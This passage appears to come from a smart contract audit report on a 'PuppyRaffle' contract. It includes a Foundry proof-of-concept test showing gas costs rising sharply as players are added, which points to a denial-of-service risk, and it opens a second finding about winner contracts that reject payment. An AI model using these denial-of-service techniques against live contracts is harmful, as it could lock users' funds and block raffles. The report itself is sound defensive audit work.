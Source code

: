 **Impact:**
This kind of scenario might lead the transaction to fail and hence the wastage of gas fee

**Proof of Concept:**

- When we try to enter the first set of 100 players, the gas used is `6252047`.
- While when we try to enter the second set of 100 players , the gas used is `18068137` , which is more than three times the previous one.
- This exponential increase of gas utilization might lead to Out of gas error and hence revert the transaction.

```javascript
    function testDoSAttack() public {
        vm.txGasPrice(1);
        uint256 playersNum =  100;
        address[] memory players = new address[](playersNum);
        for(uint256 i = 0 ; i < playersNum ;i++) {
            players[i] = address(i);
        }
        uint256 gasStart = gasleft();
        puppyRaffle.enterRaffle{value:entranceFee * playersNum}(players);
        uint256 gasEnd = gasleft();
        uint256 gasUsedFirst = (gasStart - gasEnd) * tx.gasprice;
        console.log("First 100 players gas used",gasUsedFirst);
        
        // Next 100 players
        address[] memory playersTwo = new address[](playersNum);
        for(uint256 i = 0 ; i < playersNum ;i++) {
            playersTwo[i] = address(playersNum + i);
        }
        uint256 gasStartSecond = gasleft();
        puppyRaffle.enterRaffle{value:entranceFee * playersNum}(playersTwo);
        uint256 gasEndSecond = gasleft();
        uint256 gasUsedSecond = (gasStartSecond - gasEndSecond) * tx.gasprice;
        console.log("Second 100 players gas used",gasUsedSecond);
        console.log("Gas left at last",gasEndSecond);

        assert(gasUsedFirst < gasUsedSecond);
    }
```

**Recommended Mitigation**

### [M-2] Smart Contract wallets raffle winner without a `receive ` or a `fallback` function will block the start of a new raffle.

**Description:** The `PuppyRaffle::selectWinner` is responsible for resetting the raffel and restarting a new one , but if the winner is smart contract wallet that rejects the payment , the lottery would not be able to restart.

Users could easily call the `selectWinner` function again and a non-wallet entrants could enter but it could cost a lot due to the duplicate check and a lottery reset could get challenging
